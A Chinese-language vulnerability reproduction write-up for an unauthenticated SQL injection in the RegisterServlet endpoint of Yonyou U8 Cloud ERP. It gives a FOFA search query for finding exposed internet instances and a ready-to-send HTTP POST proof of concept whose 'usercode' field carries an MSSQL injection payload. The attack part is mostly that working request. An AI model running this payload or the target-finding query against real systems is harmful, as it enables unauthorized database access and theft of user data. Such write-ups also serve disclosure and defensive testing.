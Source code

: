 
# 用友 U8 Cloud RegisterServlet SQL 注入漏洞复现

### 0x01 产品简介

  用友 U8 Cloud 是用友推出的新一代云 ERP，主要聚焦成长型、创新型企业，提供企业级云 ERP 整体解决方案。

### 0x02 漏洞概述

  用友 U8 Cloud  RegisterServlet 接口处存在 SQL 注入漏洞，未授权的攻击者可通过此漏洞获取数据库权限，从而盗取用户数据，造成用户信息泄露。

### 0x03 影响范围

 所有版本

### 0x04 复现环境

FOFA：app="用友-U8-Cloud"

![](assets/1701826162-d0fa43c245df2b605057562155bde5e9.png)

### 0x05 漏洞复现 

PoC

```http
POST /servlet/RegisterServlet HTTP/1.1
Host: {{Hostname}}
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_8_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2866.71 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
X-Forwarded-For: 127.0.0.1

usercode=1' and substring(sys.fn_sqlvarbasetostr(HashBytes('MD5','123')),3,32)>0--
```

查询 123 的 MD5 值
